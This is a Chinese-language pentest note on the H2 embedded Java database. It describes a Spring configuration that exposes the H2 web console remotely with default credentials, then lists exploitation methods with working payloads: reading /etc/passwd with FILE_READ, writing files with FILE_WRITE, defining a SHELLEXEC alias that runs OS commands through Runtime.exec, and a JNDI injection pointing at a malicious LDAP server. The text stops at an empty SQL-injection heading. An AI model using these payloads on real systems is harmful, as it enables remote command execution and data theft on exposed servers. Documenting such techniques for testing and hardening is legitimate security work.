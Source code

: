 ```yaml
---
title: "H2 database"
author: ["4shen0ne"]
draft: false
---
```


H2 是用 java 开发的嵌入式数据库，其本身只是一个类库(jar 文件)，可以直接嵌入到应
用项目中。

主要用途：

1.  和应用一起打包发布，方便存储少量的结构化数据。
2.  用于单元测试，启动速度快，关闭持久化功能后每次测试完都会还原数据。
3.  作为缓存(内存数据库)使用，缓存一些不经常变化但需要频繁访问的数据，比如字典表、
    权限表。

示例配置文件：

```nil
spring.datasource.url = jdbc:h2:mem:dbtest
#配置h2数据库的连接地址
spring.datasource.username = sa
#配置数据库用户名
spring.datasource.password = sa
#配置数据库密码
spring.datasource.driverClassName =org.h2.Driver
#配置JDBC Driver
##数据初始化设置
spring.datasource.schema=classpath:db/schema.sql
#进行该配置后，每次启动程序，程序都会运行resources/db/schema.sql文件，对数据库的结构进行操作。
spring.datasource.data=classpath:db/data.sql
#进行该配置后，每次启动程序，程序都会运行resources/db/data.sql文件，对数据库的数据操作。
##h2 web console设置
spring.datasource.platform=h2
#表明使用的数据库平台是h2
spring.h2.console.settings.web-allow-others=true
# 进行该配置后，h2 web consloe就可以在远程访问了。否则只能在本机访问。
spring.h2.console.path=/h2
#进行该配置，你就可以通过YOUR_URL/h2访问h2 web consloe。YOUR_URL是你程序的访问URl。
spring.h2.console.enabled=true
#进行该配置，程序开启时就会启动h2 web consloe。当然这是默认的，如果你不想在启动程序时启动h2 web consloe，那么就设置为false。
```

`spring.h2.console.settings.web-allow-others` 设置为 true，则允许任意用户访问
console，同时默认的数据库 test 登陆用户名是 sa，密码为 null，存在信息泄漏风险。

console 默认端口：8082
数据库默认端口：9092


## 利用方式 {#利用方式}

1.  文件读取
    使用 `FILE_READ` 函数进行敏感文件的读取(需要管理员权限)，支持文件名和 URL 方式进
    行读取。

    ```text
    SELECT FILE_READ('/etc/passwd', NULL) CSS;
    ```

    第二个参数为字符集，NULL 表示使用系统默认。

2.  文件写入
    使用 `FILE_WRITE` 函数进行文件写入(需要管理员权限和文件的写权限)。

    ```text
    SELECT FILE_WRITE('00000074000000650000007300000074', '/tmp/hello.txt');
    ```

3.  执行 java 代码
    通过 `CREATE ALIAS` 定义一个函数，并使用 `CALL` 调用。
    ```nil
       CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
       CALL SHELLEXEC('id')
    ```

4.  JNDI 注入
    通过配置 H2 Console 的 Driver CLASS 和 JDBC URL，即可触发一个 JNDI 注入。

    | Setting Name             | Generic JNDI Data Source （名称随意）          |
    |--------------------------|------------------------------------------|
    | Driver Class             | javax.naming.InitialContext （JDK 自带也不用考虑额外的驱动） |
    | JDBC URL                 | ldap://ip:port/jndi （恶意 LDAP Server）       |
    | User Name &amp; Password | 设置为空                                       |

5.  SQL 注入
